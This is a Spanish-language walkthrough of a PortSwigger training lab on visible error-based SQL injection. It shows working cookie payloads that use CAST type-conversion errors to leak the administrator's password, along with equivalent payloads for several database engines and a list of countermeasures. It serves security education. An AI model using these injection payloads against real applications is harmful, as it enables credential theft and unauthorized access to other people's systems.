

# Writeup: Visible error-based SQL injection (PortSwigger)

- **Lab**: Visible error-based SQL injection
- **URL**: https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based
- **Categoría**: SQL Injection → Blind SQL injection → Error-based
- **Dificultad**: Practitioner

---

## 1. Objetivo

El lab contiene una vulnerabilidad de SQL injection. La aplicación usa una **cookie de tracking** para analytics y, al recibirla, ejecuta una query SQL que incluye su valor. Los resultados de esa query **no se devuelven** en la respuesta HTTP.

La base de datos contiene una tabla `users` con columnas `username` y `password`. Para resolver el lab hay que **filtrar la password del usuario `administrator`** y loguearse con esa cuenta.

### Lo que ya sabemos antes de tocar nada

- **Punto de inyección**: una cookie de tracking (no un parámetro GET/POST visible). Esto es importante porque cambia dónde hay que probar el payload.
- **La query SQL existe pero su resultado no se renderiza**: estamos en territorio *blind*. No vamos a poder hacer un `UNION SELECT` y leer las filas en la página.
- **Pista en el título del lab**: "**visible error-based**". El servidor devuelve mensajes de error de la base de datos en la respuesta. Vamos a abusar de esos errores como canal de exfiltración.
- **Objetivo concreto**: extraer `password` de la fila donde `username='administrator'` y usarla para entrar.

---

## 2. Provocar el primer error

Poner valores "normales" en `TrackingId` (`abc`, `123`, cadenas largas…) **no produce error**: encajan como cadena válida dentro de la query del backend, que aproximadamente es:

```sql
SELECT ... FROM tracking WHERE id = 'TU_VALOR_AQUI'
```

Cualquier valor sin metacaracteres simplemente ejecuta bien (devuelva o no filas, pero sin excepción).

### Romper la sintaxis con una comilla simple

El primitivo clásico para confirmar SQLi en un parámetro string es añadir una comilla sin pareja:

```
Cookie: TrackingId=xyz'
```

La query queda así, con una comilla huérfana:

```sql
SELECT ... FROM tracking WHERE id = 'xyz''
                                          ^ comilla sin cerrar
```

La DB no puede parsear la sentencia. Si la app no captura la excepción, el mensaje de error de la DB sale tal cual en la respuesta HTTP — y ese error es **nuestro canal de exfiltración**.

### Lectura de la respuesta

Mandando la request con Burp Repeater pueden pasar tres cosas:

| Respuesta | Diagnóstico |
|---|---|
| 200 OK igual que con un valor normal | La app capturó la excepción o el parámetro no es inyectable por aquí |
| `500 Internal Server Error` con texto tipo `unterminated quoted string at or near "'xyz'"` o `ERROR: syntax error at or near …` | ✅ Inyección confirmada **y errores visibles** |
| `500` pero sin texto de la DB en el body | Vulnerable, pero el canal "error visible" no aplica (sería otro tipo de blind) |

El título del lab promete errores visibles, así que esperamos el segundo caso. El propio mensaje suele delatar el motor (en PortSwigger casi siempre PostgreSQL para los error-based).

### ⚠️ Nota — `'` solo vs `' --`

Es muy fácil confundir el primer test. Si en lugar de la comilla suelta pones `' --`, la query **sí queda válida** y no verás error:

```sql
-- Backend con payload "' --"
SELECT ... FROM tracking WHERE id = '' --'
                                        ↑ todo desde aquí es comentario
```

Eso es porque `--` es un comentario de línea en PostgreSQL/MySQL: anula la comilla huérfana del final y la query parsea correctamente (devuelve 0 filas, respuesta 200, sin error).

El patrón `' --` se usa para lo contrario: **cerrar la cadena e inyectar lógica adicional** sin romper la sintaxis (p.ej. `' OR 1=1 --`, `' UNION SELECT … --`). Para confirmar SQLi vía error visible queremos justamente lo contrario: que falle.

| Payload | Query resultante | ¿Error? | Para qué sirve |
|---|---|---|---|
| `xyz'` | `… id = 'xyz''` | ✅ Sí, sintaxis rota | Confirmar SQLi y abrir canal error-based |
| `' --` | `… id = '' --'` | ❌ No, válida | Cerrar cadena para inyectar lógica |
| `' OR 1=1 --` | `… id = '' OR 1=1 --'` | ❌ No, válida | Boolean-based, UNION, etc. |

### Resultado real con `xyz'`

```
Unterminated string literal started at position 36 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

Dos cosas que confirma este error:

1. **Inyección confirmada** — la comilla rompió la sintaxis y la app no captura la excepción.
2. **El error filtra la query completa** (`SELECT * FROM tracking WHERE id = '…'`). Sabemos exactamente cómo se construye y dónde está nuestro valor, sin adivinar.

El formato del mensaje (`Unterminated string literal … Expected char`) no es el típico de PostgreSQL ni MySQL — parece venir de un parser/wrapper Java intermedio. El motor real lo confirmará el siguiente payload.

---

## 3. De error de sintaxis a exfiltración

Tenemos canal de error, pero un error de sintaxis sólo confirma vulnerabilidad — no entrega datos. Lo que necesitamos ahora es un payload que cumpla **tres condiciones**:

1. Sea **sintácticamente válido** (la query parsea y se ejecuta).
2. Fuerce a la DB a **evaluar una subquery** que lea la tabla `users`.
3. Provoque un error **cuyo mensaje contenga el valor leído**.

### La técnica: error de conversión de tipo (`CAST`)

La forma clásica de hacer esto en PostgreSQL es forzar una conversión de tipo que falle. Idea:

```sql
CAST( (SELECT 'administrator') AS int )
```

La subquery devuelve la cadena `'administrator'`. Cuando PostgreSQL intenta convertirla a entero, falla:

```
ERROR: invalid input syntax for type integer: "administrator"
```

Dentro del propio mensaje de error **viaja el valor que queríamos leer**. Ese es el canal de exfiltración.

### Primer payload — validar la técnica

Antes de leer la password, probamos con algo trivial — el `username` del primer usuario:

```
TrackingId=xyz' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

Desglose:

- `xyz'` → cierra la cadena del `WHERE id = '…'`.
- ` AND 1=CAST(…)` → añade una condición; da igual si matchea filas, sólo importa que la DB evalúe el `CAST`.
- `(SELECT username FROM users LIMIT 1)` → subquery que devuelve un username (presumiblemente `administrator`).
- `AS int` → conversión forzada a entero. Como `'administrator'` no es numérico, **explota**.
- `--` → comenta la comilla huérfana que queda al final de la query original.

### Resultado real — el `--` no funcionó

```
Unterminated string literal started at position 95 in SQL
SELECT * FROM tracking WHERE id = 'xyz' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)'
```

Mirando la query que muestra el error: termina en `int)'` — **sin el `--`**. El comentario no llegó al SQL final. Posibles causas (alguno de los wrappers/parsers del lab se lo come):

- El parser de cookies normaliza/recorta `-- `.
- Algún wrapper SQL strippa comentarios antes de ejecutar.
- Otro tipo de sanitización ligera.

No importa el porqué exacto — necesitamos un payload que no dependa de comentar.

### Workaround: balancear comillas en vez de comentar

En lugar de anular la comilla huérfana con un comentario, le damos una comilla "compañera" que la cierre como string válido:

```
TrackingId=xyz' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int) AND '1'='1
```

Query resultante:

```sql
SELECT * FROM tracking WHERE id = 'xyz' AND 1=CAST(...) AS int) AND '1'='1'
                                  └────┘                          └─────┘
                                  string                          string balanceada
```

Todas las comillas quedan emparejadas:

- `'xyz'` → string cerrada.
- La `'` que abrimos en `'1` se empareja con la `'` final que la app añade al cerrar la query original → `'1'`.
- La condición `'1'='1'` siempre es verdadera, así que sólo importa lo que evalúe `CAST(...)`.

Esta técnica es más robusta que `--` porque sólo depende de la sintaxis estándar de SQL — no de cómo el wrapper/parser trate los comentarios.

### Resultado real — error idéntico, ¿qué pasó?

```
Unterminated string literal started at position 95 in SQL
SELECT * FROM tracking WHERE id = 'xyz' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)'
```

Carácter por carácter idéntico al error anterior. La cola `AND '1'='1` no aparece en la query. Contando posiciones:

```
SELECT * FROM tracking WHERE id = 'xyz' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)'
└─── prefijo: 35 chars ──────────┘└── valor de cookie usado: 60 chars ─────────────────────────┘
                                  pos 35                                                    pos 94 95
```

El valor de la cookie usado en el SQL es exactamente **60 caracteres**. El payload enviado era de **71** (`xyz' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int) AND '1'='1`). Conclusión: **la cookie se trunca a 60 chars server-side** antes de entrar en el SQL builder.

Por eso el `--` original también falló: `xyz' AND 1=CAST(...) AS int)--` tenía 65 chars → se cortaba antes del `--`.

Probablemente la app guarda/procesa el `TrackingId` con un límite de tipo `VARCHAR(60)` o similar.

### Payload comprimido — caber en 60 chars

Necesitamos meter toda la lógica en ≤ 60 chars. En lugar de añadir una cláusula `AND` (que requiere mucho prefijo), usamos **concatenación de strings** (`||` en PostgreSQL/Oracle/SQLite) para incrustar el `CAST` directamente dentro del string del `WHERE id = '…'`:

```
TrackingId='||CAST((SELECT username FROM users LIMIT 1)AS int)||'
```

54 caracteres — cabe holgadamente.

Query resultante:

```sql
SELECT * FROM tracking WHERE id = ''||CAST((SELECT username FROM users LIMIT 1)AS int)||''
                                  └┘ └──────────────────────────────────────────────┘ └┘
                                  s1 cast (revienta al evaluar)                        s2
```

- `''` (string vacío) `||` resultado del `CAST` `||` `''` (string vacío). Comillas balanceadas.
- El `CAST` se evalúa: `(SELECT username FROM users LIMIT 1)` devuelve `'administrator'` → no convertible a int → **error con el valor incrustado**.
- Sin `--`, sin cláusulas extra → no necesitamos comentar ni añadir nada.

> Nota sobre `||`: en PostgreSQL/Oracle/SQLite es concatenación. En MySQL por defecto es OR lógico, pero el `CAST` igualmente se evalúa como expresión y, si falla, error.

### Resultado — exfiltración funciona

```
ERROR: invalid input syntax for type integer: "administrator"
```

Tres confirmaciones de un golpe:

- **Motor identificado**: el formato `invalid input syntax for type integer: "..."` es PostgreSQL nativo. El "Unterminated string literal" anterior venía del wrapper/parser intermedio; ahora ya estamos viendo errores del propio motor.
- **Canal funciona**: el `CAST` revienta justo como queríamos y vuelca el valor entre comillas.
- **`LIMIT 1` devuelve `administrator`** → es la primera fila de `users`. Eso simplifica leer la password: misma fila, misma técnica, sólo cambiar la columna.

---

## 4. Leer la password

Reutilizamos el mismo payload, pero leyendo `password` en lugar de `username`:

```
TrackingId='||CAST((SELECT password FROM users LIMIT 1)AS int)||'
```

54 caracteres — sigue cabiendo en el límite de 60.

### Resultado — password filtrada

```
ERROR: invalid input syntax for type integer: "evf5bbkv9xthy8ecshgi"
```

Password de `administrator` extraída: `evf5bbkv9xthy8ecshgi`.

---

## 5. Login y resolución

1. Logout / ventana de incógnito.
2. `My account` → login con:
   - Usuario: `administrator`
   - Password: `evf5bbkv9xthy8ecshgi`
3. Lab marcado como **Solved**.



---

## 6. Resumen de la cadena

La cadena completa, en una vista:

```mermaid
flowchart TB
    A[1. Cookie TrackingId reflejada en SQL]
    B[2. Probar con xyz' arrastra error y revela query]
    C[3. SELECT * FROM tracking WHERE id = '...']
    D[4. Limite ~60 chars en valor de cookie]
    E[5. Payload compacto con concatenacion ||]
    F[6. CAST string a int dispara error nativo PostgreSQL]
    G[7. Error embebe el valor leido: leak via mensaje]
    H[8. Leer username confirma administrator y orden de filas]
    I[9. Leer password con LIMIT 1 entrega el secret]
    J[10. Login como administrator => lab solved]

    A --> B --> C --> D --> E --> F --> G --> H --> I --> J
```

Tres ideas clave que llevarse:

1. **`'` solo, sin `--`, es el primer test correcto** para errores visibles. `' --` cierra y comenta — no rompe — y por eso no produce error.
2. **El propio mensaje de error puede revelar la query** (como aquí), lo que ahorra adivinar la estructura. Aprovecha esa información para diseñar payloads ajustados.
3. **Errores de conversión de tipo son el primitivo más limpio para error-based**: `CAST(<subquery_de_string> AS int)` en PostgreSQL escupe el valor literal en el mensaje. Equivalentes:
   - PostgreSQL/SQLite: `CAST((SELECT …) AS int)`
   - MySQL (>= 5.7): `(SELECT … FROM …)+0` fuerza conversión similar; o `extractvalue(rand(),concat(0x3a,(SELECT …)))` para errores XPath.
   - MS SQL: `CONVERT(int,(SELECT …))`.
   - Oracle: `TO_NUMBER((SELECT … FROM dual))`.

---

## 7. Contramedidas

Defensas en orden de robustez:

1. **Consultas parametrizadas / prepared statements**. La defensa principal contra cualquier SQLi: los valores no se concatenan al SQL, viajan como parámetros. Sin concatenación, el `'` del atacante es solo un carácter en los datos, nunca código SQL.
2. **No reflejar mensajes de error de la DB al cliente**. Aunque la inyección exista, sin canal visible el atacante tiene que pasar a técnicas blind/time-based, mucho más lentas. Es defensa en profundidad.
3. **Validación / allow-listing del valor de la cookie**: si `TrackingId` se espera como un identificador alfanumérico de longitud fija, rechazar todo lo que no encaje en el regex (`^[a-zA-Z0-9]{20}$` o similar) bloquea el payload de raíz.
4. **Privilegios mínimos en la conexión a la DB**: la cuenta que ejecuta queries de tracking no debería poder leer la tabla `users`. Aunque la SQLi exista, no podría filtrar credenciales.
5. **WAF con reglas SQLi**: detección de patrones `CAST`, `UNION SELECT`, `||`, `--`, etc. Es defensa secundaria — bypaseable, pero útil para subir el coste del ataque.

---

## 8. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Visible error-based SQL injection*. https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based
- PortSwigger Web Security Academy. (s.f.). *Blind SQL injection*. https://portswigger.net/web-security/sql-injection/blind
- PostgreSQL Documentation. (s.f.). *Type conversion / CAST*. https://www.postgresql.org/docs/current/sql-expressions.html#SQL-SYNTAX-TYPE-CASTS
- OWASP Foundation. (s.f.). *SQL Injection Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-sqli.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-sqli.md)
- Inventario interno: [`inventario/04-explotacion/web/explotacion-sqli.md`](../../../inventario/04-explotacion/web/explotacion-sqli.md)

